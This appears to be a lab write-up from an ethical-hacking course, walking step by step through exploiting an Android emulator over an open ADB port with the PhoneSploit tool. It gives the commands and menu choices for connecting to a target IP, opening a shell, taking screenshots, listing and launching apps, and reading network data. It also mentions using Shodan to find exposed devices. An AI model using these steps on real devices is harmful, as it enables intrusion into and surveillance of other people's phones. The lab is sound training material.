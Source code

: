 - Android Debug Bridge (ADB) is a versatile command-line tool that lets you communicate with a device. ADB facilitates a variety of device actions such as installing and debugging apps, and provides access to a Unix shell that you can use to run several different commands on a device.
- Usually, developers connect to ADB on Android devices by using a USB cable, but it is also possible to do so wirelessly by enabling a daemon server at TCP port 5555 on the device.
- In this task, we will exploit the Android platform through ADB using the PhoneSploit tool.
- Open Terminal
	> sudo su
	> cd
	> cd PhoneSploit 
	> python3 -m pip install colorama (to install the dependency)
	> python3 phonesploit.py (to run the tool)
	
	> 3 (connect to a new phone option)
	> Enter #targetip 
	
	> 4 (to choose access shell on a phone)
	> pwd (to show current working directory of target machine)
	
	> 7 (to choose **Screen Shot a picture on a phone**)
	> /home/Desktop (location to save the screenshot)
	
	> 14 (to choose **List all apps on a phone**)
	- The result appears, displaying the installed apps on the target Android device.
	- Using this information, you can use other PhoneSploit options to either launch or uninstall any of the installed apps.

	> 15 (to choose **Run an app**)
	- Based on the information obtained in the previous step about the installed applications, you can launch any app of your choice.

	> p (to navigate to additional PhoneSploit options on the **Next Page**)
	
	> 18 ( to choose **Show Mac/Inet** information for the target Android device)
	- The result appears, displaying the Mac/Inet information of the target Android device.

	> 21 (to choose the **NetStat** option)
	- The result appears, displaying netstat information of the target Android device.
	- For demonstration purposes, in this task, we are exploiting the Android emulator machine. However, in real life, attackers use the **Shodan** search engine to find ADB-enabled devices and exploit them to gain sensitive information and carry out malicious activities.

- In the same way, you can exploit the target **Android** device further by choosing other PhoneSploit options such as **Install an apk on a phone**, **Screen record a phone**, **Turn The Device off**, and **Uninstall an app**.